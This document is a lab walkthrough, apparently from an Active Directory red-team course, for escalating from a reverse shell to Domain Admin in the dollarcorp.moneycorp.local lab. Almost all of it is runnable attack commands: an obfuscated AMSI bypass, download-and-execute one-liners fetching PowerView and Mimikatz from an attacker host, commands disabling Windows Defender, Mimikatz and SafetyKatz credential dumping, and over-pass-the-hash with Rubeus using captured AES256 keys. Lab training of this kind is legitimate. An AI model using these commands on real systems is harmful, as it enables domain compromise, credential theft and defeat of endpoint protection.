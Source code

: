 ```yaml
---
description: >-
  Task - Target a domain where a domain admin has a session and compromise the
  machine to escalate privs to Domain Admin.
---
```


# Obj 7 Derivative Local Admin

{% hint style="success" %}
Theses commands are going to be ran from the reverse shell on dcorp-ci
{% endhint %}

## Run AMSI bypass on machine

```
S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```

## Load PowerView onto the machine

```
iex ((New-Object Net.WebClient).DownloadString('http://172.16.100.X/PowerView.ps1'))
```

## Find Domain user location

```
Find-DomainUserLocation 
```

{% hint style="success" %}
The above command finds active sessions of domain users. We are looking for a DA session if possible.
{% endhint %}

## Check if we can run commands on the sessions available

```
Invoke-Command -ScriptBlock {whoami;hostname} -ComputerName dcorp-mgmt
```

## Get Mimikatz on the Target Machine

```
iex (iwr http://172.16.100.X/Invoke-Mimikatz.ps1-UseBasicParsing)
```

## Create a new session for Target Machine

```
$sess = New-PSSession -ComputerName dcorp-mgmt.dollarcorp.moneycorp.local
```

## Disable Protections and AMSI on Target Machine

```
Invoke-command -ScriptBlock{Set-MpPreference -DisableIOAVProtection $true} -Session $sess
```

## Now we can Invoke Mimikatz on Target Machine to Get Creds

```
Invoke-command -ScriptBlock ${function:Invoke-Mimikatz} -Session $sess
```

## Now we can use Over Pass the Hash with Rubeus

We can use Rubeus, Mimikatz or SafteyKatz for this as well.&#x20;

## Rubeus Over Pass The Hash

```
C:\AD\Tools\Rubeus.exe asktgt /user:svcadmin /aes256:6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011 /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

## Mimikatz Over Pass The Hash

```
Invoke-Mimikatz -Command '"sekurlsa::pth /user:svcadmin /domain:dollarcorp.moneycorp.local /aes256:6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011 /run:powershell.exe"'
```

## SafetyKatz Over Pass The Hash

```
C:\AD\Tools\SafetyKatz.exe "sekurlsa::pth /user:srvadmin /domain:dollarcorp.moneycorp.local /aes256:145019659e1da3fb150ed94d510eb770276cfbd0cbd834a4ac331f2effe1dbb4 /run:cmd.exe" "exit"
```

## <mark style="color:orange;">- DERIVATIVE LOCAL ADMIN -</mark>

In the session we created using svcadmin creds above we are going to see who we can access as local admin.

```
.C:\AD\Tools\Find-PSRemotingLocalAdminAccess.ps1
Find-PSRemotingLocalAdminAccess
```

## We can start a PSSession on any available machines we find

```
Enter-PSSession -ComputerName dcorp-adminsrv
```

## We need to check what language mode we are in first.

```
$ExecutionContext.SessionState.LanguageMode
```

## Next we can check the AppLocker policy to see if/where we can run scripts from

```
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
```

## We can now disable Windows Defender and AMSI on the sess

```
Set-MpPreference -DisableRealtimeMonitoring $true -Verbose
Set-MpPreference -DisableIOAVProtection $true -Verbose
```

## Create a Modified Mimikatz script to execute on load

```
Create a copy of Invoke-Mimikatz.ps1 and rename it to Invoke-MimikatzEx.ps1.
-Open Invoke-MimikatzEx.ps1 in PowerShell ISE
-Add  Invoke-Mimikatz–Command sekurlsa::ekeys -to the very end of the file.
```

## Now we can transfer the new file over

We are copying this from our foothold machine in the process created for svcadmin

<pre><code><strong>PS C:\AD\Tools> Copy-Item C:\AD\Tools\Invoke-MimikatzEx.ps1 \\dcorp-adminsrv.dollarcorp.moneycorp.local\c$\'Program Files'
</strong></code></pre>

## Back on the Target Machine we can invoke Mimikatz

```
[dcorp-adminsrv]: PS C:\Program Files> .\Invoke-MimikatzEx.ps1
```

## Over Pass the Hash with SafetyKatz

Again we can use SafetyKatz, Rubeus or Mimikatz to do this also. We will use one of the creds we found in the previous hash dump.

```
C:\AD\Tools\SafetyKatz.exe "sekurlsa::pth /user:srvadmin /domain:dollarcorp.moneycorp.local /aes256:145019659e1da3fb150ed94d510eb770276cfbd0cbd834a4ac331f2effe1dbb4 /run:cmd.exe" "exit"
```

## On the new process that started we run invishell and look for PSRemoting local admins again.

```
. C:\AD\Tools\Find-PSRemotingLocalAdminAccess.ps1
Find-PSRemotingLocalAdminAccess -Verbose
```

## Extract credentials from our findings Using SafetyKatz

We can use mimikatz to do this but this time we are going to use safetykatz. So we need to copy loader.exe to the target machine first.

```
echo F | xcopy C:\AD\Tools\Loader.exe \\dcorp-mgmt\C$\Users\Public\Loader.exe
```

## We can now winrs or PSRemote in and Invoke SafetyKatz

```
C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe sekurlsa::ekeys exit
```

## We can do the same as above with Mimikatz do dump the credentials of the target machine

1. First we need to disable AMSI on the target machine (copy and past AMSI Bypass)
2. Download and Execute Mimikatz.ps1\
   `iex (iwr http://172.16.100.X/Invoke-Mimikatz.ps1-UseBasicParsing)`&#x20;
3. On Target machine run:\
   `Invoke-Mimikatz–Command '"sekurlsa::ekeys"'`\


## We can also dump credentials from the credentials vault with mimikatz

```
Invoke-Mimikatz -Command '"token::elevate" "vault::cred /patch"'
```

## Finally we can use Over Pass the Hash with svcadmin credentials to start a new process as Domain Admin

```
C:\AD\Tools\Rubeus.exe asktgt /user:svcadmin /aes256:6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011 /opsec /createnetonly:C:\Windows\System32\cmd.exe /show/ptt
```
